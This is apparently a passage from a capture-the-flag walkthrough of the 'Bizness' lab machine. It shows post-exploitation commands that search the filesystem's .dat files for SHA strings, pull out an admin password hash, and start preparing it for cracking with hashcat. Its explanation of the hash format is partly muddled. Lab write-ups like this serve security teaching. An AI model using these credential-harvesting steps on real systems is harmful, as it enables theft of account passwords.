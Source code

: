 After running linpeas we get some interesting derby database files 
![img-description](4.jpg)

The files are stored in the following directory.
```
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/log$ ls
ls
log31.dat  log34.dat  log37.dat  log40.dat       README_DO_NOT_TOUCH_FILES.txt
log32.dat  log35.dat  log38.dat  log.ctrl
log33.dat  log36.dat  log39.dat  logmirror.ctrl

```
We compile all the .dat files together.

```shell
find / -name '*.dat' -type f 2>/dev/null > /tmp/aaa
```

Searching for SHA strings in the compiled file we come across this

```shell
ofbiz@bizness:/tmp$ cat aaa | xargs strings | grep SHA
cat aaa | xargs strings | grep SHA
strings: /var/cache/debconf/passwords.dat: Permission denied
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
SHA-256
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
MARSHALL ISLANDS
SHA-256
SHA-256
```
We have a sha1 salted hash

> The $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I contains 3 parts
> * $SHA$ indicates the algorithm used (SHA-1).
> * $d is a parameter or iteration count.
> * $uP0_QaVBpDWFeo8-dRzDqRwXQ2I is the salt which we will be decoding

To crack this with hashcat we first need to decode it and convert it to hex. Let's do that with cyberchef.
